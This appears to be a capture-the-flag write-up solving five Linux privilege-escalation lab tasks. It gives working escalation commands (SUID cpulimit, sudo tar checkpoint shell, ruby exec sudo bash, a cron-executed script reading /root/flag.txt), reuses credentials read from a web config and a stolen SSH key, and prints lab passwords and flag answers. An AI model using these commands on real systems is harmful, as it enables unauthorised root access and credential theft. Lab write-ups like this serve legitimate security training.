

### Linux privesc 1
#### The condition of a given task:
<code>Повысьте привилегии и прочитайте /root/flag.txt
Данные для входа: user:user</code>

#### Solution:
VPN On
we can use *LinPeas* or something like `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;` that to find out that we have **cpulimit with the SUID** flag, go to the 
[https://gtfobins.github.io/gtfobins/cpulimit/](https://gtfobins.github.io/gtfobins/cpulimit/) SUID section and try payload cpulimit -l 100 -f -- touch 3xh4u573d Look at the permissions on the 3xh4u573d and see that it belongs to the root user.
let's try reading /root/flag.txt with 
**cpulimit -l 100 -f -- cat /root/flag.txt** 

Be careful don't enter flag+hostname

Answer is: ***2900257da22fef500ada7bb3898b8f640d48b4d78becf9e7b9d57afd11449f4b9acb51ab74ee3e6d46bae2353d51d015***

***

### Linux privesc 2
#### The condition of a given task:
<code>Повысьте привилегии и прочитайте /root/flag.txt
Данные для входа: user:user</code>

#### Solution:
VPN On
Hard task imho
The point is that there is a **cronjob**, which as I understand **executes all scripts from the /scripts folder**, and we just *add* there *our script* for the output of the *flag* can get it
First of all, let's write in <script_name> smth like this:
`#!/bin/bash`
`cat /root/flag.txt > tmp/flag # or any writeble folder` and wait, for convenience we can make a *watch* on the directory where we wait


Answer is: ***2fe1aeada622efd97951c34d44ae28774b70b73f7466faadaee509092f03ffd86a47459765e5c663bb486e2c91bbbf56***

***

### Linux privesc 3
#### The condition of a given task:
<code>Повысьте привилегии и прочитайте /root/flag.txt
Данные для входа: user:user</code>

#### Solution:
Get into irb (ruby interactive shell) and immediately see [https://gtfobins.github.io/gtfobins/ruby/#sudo](https://gtfobins.github.io/gtfobins/ruby/#sudo)
Try `exec "sudo /bin/bash"` or `exec "sudo cat /root/flag.txt"` I don't know and get the flag!


Answer is: ***634a1c35de65fbd0c39d529aeae5315689a246ca981536637fd0e2d61eaaeea1cf6c4fc25e4da29284feb1ecc41f04a2***

***

### Степной волк
#### The condition of a given task:
<code>Флаг у user4 . Достанете?
ssh: www-data:www-data</code>

#### Solution:
First we get the `password for user1 from mysql`, whose credentials are in `/var/www/html/index.php`
```
mysql --host=mysql --user=mysql --password=MysqlP4ss
USE passwords;
SELECT * FROM passwords;
```
Then we see a lot of clues and interesting things, screenshots below





But **we are interested in /home/user3/.ssh/id_rsa** - *private ssh key*, which we can simply copy to ourselves and connect (*for some reason to user4*) using 
`ssh -i <id_rsa_key> user4@10.10.10.10 -p <your_port>`.


user:user
user1:Str0ngP4ss4Us3r0n3

Answer is: ***60a982db2c73db2254cce9370c42c253d546305918e2d1c3496eefa60c3f95ea4999b52de360743a8571354703185b2a***

***

### Эскалация привилегий через sudo
#### The condition of a given task:
<code>Ваша задача прочитать флаг из /root/flag.txt
Логин/пароль: user:user</code>

#### Solution:
try sudo -l to get smth like this 

check [https://gtfobins.github.io/gtfobins/tar/#sudo](https://gtfobins.github.io/gtfobins/tar/#sudo) and try
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`


Answer is: ***01bf4911588507e96525dbba1c14128f78fdd34d78dd370a8540eb8b644510fe50b90af22987e64c550a4a9d9b2d460f***

***